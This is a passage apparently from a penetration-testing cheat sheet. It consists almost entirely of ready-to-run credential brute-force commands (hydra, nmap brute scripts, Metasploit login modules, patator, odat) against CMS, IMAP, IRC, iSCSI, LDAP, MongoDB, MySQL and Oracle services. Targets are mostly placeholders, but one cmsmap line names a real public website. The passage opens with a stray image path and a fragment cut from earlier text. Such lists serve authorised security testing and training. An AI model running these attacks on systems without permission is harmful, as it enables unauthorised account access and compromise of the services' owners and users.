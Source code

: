 For https you have to change from "http-post-form" to "https-post-form"
HTTP - CMS -- (W)ordpress, (J)oomla or (D)rupal or (M)oodle

cmsmap -f W/J/D/M -u a -p a https://wordpress.com

IMAP

hydra -l USERNAME -P /path/to/passwords.txt -f <IP> imap -V
hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 993 -f <IP> imap -V
nmap -sV --script imap-brute -p <PORT> <IP>

IRC

nmap -sV --script irc-brute,irc-sasl-brute --script-args userdb=/path/users.txt,passdb=/path/pass.txt -p <PORT> <IP>

ISCSI

nmap -sV --script iscsi-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 3260 <IP>

LDAP

nmap --script ldap-brute -p 389 <IP>

Mongo

nmap -sV --script mongodb-brute -n -p 27017 <IP>
use auxiliary/scanner/mongodb/mongodb_login

MySQL

hydra -L usernames.txt -P pass.txt <IP> mysql
msf> use auxiliary/scanner/mysql/mysql_login; set VERBOSE false

OracleSQL

patator oracle_login sid=<SID> host=<IP> user=FILE0 password=FILE1 0=users-oracle.txt 1=pass-oracle.txt -x ignore:code=ORA-01017
​
./odat.py passwordguesser -s $SERVER -d $SID
./odat.py passwordguesser -s $MYSERVER -p $PORT --accounts-file accounts_multiple.txt
​
#msf1
msf> use admin/oracle/oracle_login
msf> set RHOSTS <IP>
msf> set RPORT 1521
msf> set SID <SID>
​
#msf2, this option uses nmap and it fails sometimes for some reason
msf> use scanner/oracle/oracle_login
msf> set RHOSTS <IP>
msf> set RPORTS 1521
msf> set SID <SID>
​
#nmap fails sometimes for some reson executing this script
nmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=<SID> <IP>
